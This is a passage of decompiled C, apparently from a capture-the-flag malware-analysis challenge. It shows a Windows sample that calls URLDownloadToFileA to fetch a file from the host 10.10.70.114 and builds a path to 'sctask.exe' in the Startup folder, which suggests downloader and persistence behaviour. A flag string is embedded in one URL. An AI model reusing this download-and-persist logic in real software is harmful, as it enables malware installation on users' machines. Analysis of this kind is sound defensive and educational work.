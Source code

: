 ```c=
    {
      v23 = 2147483646LL;
      v24 = ("\\2.txt" - v21);
      do
      {
        if ( !v23 )
          break;
        v25 = v21[v24];
        if ( !v25 )
          break;
        *v21 = v25;
        --v23;
        ++v21;
        --v22;
      }
      while ( v22 );
    }
    v26 = v21 - 1;
    if ( v22 )
      v26 = v21;
    *v26 = 0;
  }
  URLDownloadToFileA(0LL, "https://10.10.70.114/2.txt", v41, 0, 0LL);
  URLDownloadToFileA(0LL, "https://10.10.70.114/L3AK{AV_evasion_is_easy", v41, 0, 0LL);
  result = SHGetFolderPathA(0LL, 7, 0LL, 0, v43);
  if ( result >= 0 )
  {
    v28 = 260LL;
    v29 = v40;
    do
    {
      if ( v28 == -2147483386 )
        break;
      v30 = v29[v43 - v40];
      if ( !v30 )
        break;
      *v29++ = v30;
      --v28;
    }
    while ( v28 );
    v31 = v29 - 1;
    if ( v28 )
      v31 = v29;
    v32 = 260LL;
    *v31 = 0;
    v33 = v40;
    do
    {
      if ( !*v33 )
        break;
      ++v33;
      --v32;
    }
    while ( v32 );
    v34 = 260 - v32;
    if ( v32 )
    {
      v35 = &v40[v34];
      v36 = 260 - v34;
      if ( 260 != v34 )
      {
        v37 = ("\\sctask.exe" - v35);
        do
```
